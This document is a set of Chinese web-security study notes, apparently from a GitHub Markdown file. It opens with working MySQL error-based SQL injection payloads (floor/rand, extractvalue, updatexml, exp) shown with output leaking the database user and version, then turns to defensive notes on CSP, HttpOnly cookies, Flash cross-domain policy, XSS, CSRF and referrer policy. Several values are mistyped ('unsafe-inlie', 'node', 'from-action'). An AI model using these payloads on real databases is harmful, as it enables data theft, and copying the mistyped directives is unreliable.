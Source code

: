 # web 安全

## error based SQL 注入

Mysql 报错注入主要分为以下几类：

* BIGINT 等数据类型溢出
* xpath 语法错误
* concat+rand()+group_by 导致主键重复
* 空间数据类型函数错误

### floor

```
mysql> select * from admin where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

1062 - Duplicate entry 'root@localhost1' for key 'group_key'


mysql> select * from admin where id=1 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

1062 - Duplicate entry '5.5.531' for key 'group_key'
```

### extracvalue()

```
mysql> select * from admin where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
1105 - XPATH syntax error: '~root@localhost~'


mysql> select * from admin where id=1 and (extractvalue(1,concat(0x7e,(select version()),0x7e)));
1105 - XPATH syntax error: '~5.5.53~'
```

### updatexml()

```
mysql> select * from admin where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
1105 - XPATH syntax error: '~root@localhost~'


mysql> select * from admin where id=1 and (updatexml(1,concat(0x7e,(select version()),0x7e),1));
1105 - XPATH syntax error: '~5.5.53~'
```

### exp()

```
mysql> select * from products where pid=1 and exp(~(select * from(select user())a));
1690 - DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

mysql> select * from admin where id=1 and exp(~(select * from(select version())a));
1690 - DOUBLE value is out of range in 'exp(~((select `a`.`version()` from (select version() AS `version()`) `a`)))'
```

## 常用的 CSP 指令

* default-src
* script-src
* style-src
* img-src
* connect-src
* font-src
* object-src
* media-src
* frame-src
* report-uri
* sandbox
* child-src
* from-action
* frame-ancestors
* plugin-types

## 常用的 CSP 指令值

* \*
* 'node'
* 'self'
* data:
* wwww.baidu.com
* \*.baidu.com
* 'unsafe-inlie'
* 'unsafe-eval'


## Cookies 安全： HTTPOnly 没有设置

在创建 cookie 应用时应该注意启用 HttpOnly 属性。

```java
javax.servlet.http.Cookie cookie = new javax.servlet.http.Cookie(emailCookie; email);
cookie.setHttpOnly(true);
```

不要被 HttpOnly 欺骗进入虚假安全。由于已开发出了多种绕过的机制，因此它并非完全有效。

## Flash 错误配置：过宽的跨域策略

不要将 * 作为 domain 属性的值。而应该提供可信赖的域的显示列表。

## Flash 错误配置：过度自由的自定义标头策略

避免 * 作为 headers 属性的值。而应该提供头文件的显示列表。

下面的 crossdomain.xml 文件会指定头文件的显示列表。


## HTML5：过度宽松的邮件发布策略

请不要将 * 作为目标源的值。相反，请提供一个特定的目标值。

## Header 操作：Cookies

Cookies 型 HTTP 头部操作，HTTP 报头中存在用户输入的字符串，造成 HTTP 响应 

## 同源策略

同源策略是一种约定，它是浏览器最核心也是最基本的安全功能。如果缺少了同源策略，浏览器很容易遭受 XSS、CSRF 等攻击。同源是指协议+域名+端口三者相同。

## xss 防范

* 使用 html 转义
* 对于链接跳转，应该检查其内容，禁止非法协议（比如 javascript）
* 在 onerror, onload, onclick 事件中，注入不受控制代码
* 在 style 属性和标签中，比如（backgroud-image:url("javascript"), expression)
* 使用严格的 Content Security Policy
* HTTP-only Cookie：禁止 JS 读取敏感 Cookie,攻击者完成 XSS 注入后也无法窃取 Cookie

## CSRF 防护

* 阻止不明外域的访问
* 提交时要求附加本域才能获取的信息

## refer policy 的设置

* 在 CSP 设置
* 页面头部增加 meta 标签
* a 标签增加 refferpolicy 属性

## reffer 没有或者不可信

* IE6、7下使用 window.location.href=url 进行界面的跳转，会丢失 reffer
* IE6、7下使用 window.open，也会缺失 reffer
* HTTPS 页面跳转到 HTTP 页面，所有浏览器 reffer 都丢失
* 点击 Flash 上到达另外一个网站的时候，reffer 会比较杂乱，不太可信

## 防范网站被利用

* 严格管理所有上传接口
* 添加 Header X-Content-Type-Options: nosniff 防止黑客上传 HTML 内容的资源被解析为网页
* 对于用户上传的文件，进行转存或者校验。不能直接使用用户填写的图片链接
* 当前用户打开外部链接时，需告知风险

## 哪些 HTTP 头字段无法通过程序修改

* Accept-Charset
* Accept-Encoding
* Access-Control-Request-Headers
* Access-Control-Request-Method
* Connection
* Content-Length
* Cookie
* Cookie2
* Date
* DNT
* Expect
* Host
* Keep-Alive
* Origin
* Proxy-
* Sec-
* Referer
* TE
* Trailer
* Transfer-Encoding
* Upgrade
* Via
